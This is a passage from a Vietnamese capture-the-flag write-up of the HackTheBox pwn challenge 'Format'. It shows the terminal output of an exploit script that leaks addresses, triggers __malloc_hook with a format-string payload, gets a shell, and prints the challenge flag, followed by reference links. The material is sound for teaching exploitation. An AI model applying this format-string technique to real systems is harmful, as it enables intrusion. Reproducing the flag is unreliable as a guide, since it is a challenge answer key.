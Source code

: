 ```python
p.close()
```  

### Chạy mã khai thác  
- Chạy mã khai thác, ta có được 
```python
➜  Format git:(main) ✗ python3 exploit.py
[*] '/home/ubuntu/Edisc/CTF/pwn-college/hackthebox/Format/format'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 167.99.202.131 on port 32399: Done
[+] LEAK : init+117 address: b'0x55afb922b26d\n'
[*] Base ELF address: 0x55afb922a000
[*] printf@got.plt address: 0x55afb922dfc0
[+] Leaked __printf: 0x7f6b96c3be80
exploit.py:65: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.sendline('%100000$c') # __malloc_hook trigger
[*] trigged malloc_hook
[*] Switching to interactive mode
$ ls
flag.txt
format
run_challenge.sh
$ cat flag.txt
HTB{mall0c_h00k_f0r_th3_w1n!}
$ 
[*] Interrupted
[*] Closed connection to 167.99.202.131 port 32399
➜  Format git:(main) ✗ 
```
### Nguồn tham khảo  
- https://karol-mazurek95.medium.com/pwn-format-challenge-htb-3a7e6351ff3a  
- https://github.com/luisrodrigues154/Cyber-Security/blob/master/HackTheBox/Challenges/Pwn/Format/notes.md  